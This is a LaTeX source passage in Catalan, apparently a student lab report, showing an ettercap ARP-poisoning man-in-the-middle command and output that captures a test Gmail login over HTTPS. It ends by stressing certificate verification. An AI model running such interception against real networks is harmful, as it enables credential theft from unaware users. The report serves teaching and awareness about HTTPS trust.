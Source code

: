 \documentclass[a4paper,11pt]{scrartcl}
\begin{document}
\begin{verbatim}
ettercap -Tq -i eth0 -M arp:remote,oneway /192.168.1.63/ //
\end{verbatim}

Ara senzillament toca esperar que la víctima intenti loguejar i accepti el nostre
certificat fals. En aquest instant la connexió estarà xifrada amb el nostre certificat
i per tant podem desxifrar el missatge enviat. Tot això ho fa el \texttt{ettercap} per nosaltres.

\begin{verbatim}
ettercap NG-0.7.3 copyright 2001-2004 ALoR & NaGA

Listening on eth0... (Ethernet)

  eth0 ->       00:0A:E4:33:D4:58     192.168.1.40     255.255.255.0

Privileges dropped to UID 0 GID 0...

  28 plugins
  39 protocol dissectors
  53 ports monitored
7587 mac vendor fingerprint
1698 tcp OS fingerprint
2183 known services

Randomizing 255 hosts for scanning...
Scanning the whole netmask for 255 hosts...
* |==================================================>| 100.00 %

1 hosts added to the hosts list...

ARP poisoning victims:

 GROUP 1 : 192.168.1.63 00:23:18:B1:D2:92

 GROUP 2 : ANY (all the hosts in the list)
Starting Unified sniffing...


Text only Interface activated...
Hit 'h' for inline help

HTTP : 209.85.227.104:443 -> USER: practicaopenssl  PASS: h4x0r_pass  
INFO: https://www.google.com/accounts/ServiceLogin?service=mail&passive=true&rm=
false&continue=https://mail.google.com/mail/?ui=html&zy=l&bsv=llya694le36z&
\end{verbatim}

Com podem veure la víctima ha intentat loguejar al seu correu de Gmail. L'usuari és \emph{practicaopenssl}
i la contrasenya \emph{h4x0r\_pass}. Això significa que ha rebut l'advertiment de que el certificat no
era l'autèntic de la pàgina i segurament per resignació, desconeixement i ganes d'entrar al seu
correu ha ignorat l'advertiment acceptant el nou certificat fraudulent.
Aquest procediment funciona per totes les webs amb \emph{SSL} que s'han provat, entre elles el Facebook, Lastfm...

En resum, emprar \emph{https} no és garantia de res sinó es sap amb seguretat que el certificat emprat
és el correcte.

Per tal d'evitar aquest frau sempre ens hem d'assegurar que els certificats són els correctes,
sobretot en el primer intercanvi que ha de ser en persona ja que si es un intercanvi a través de
la xarxa ens trobam amb el mateix problema.




\end{document}
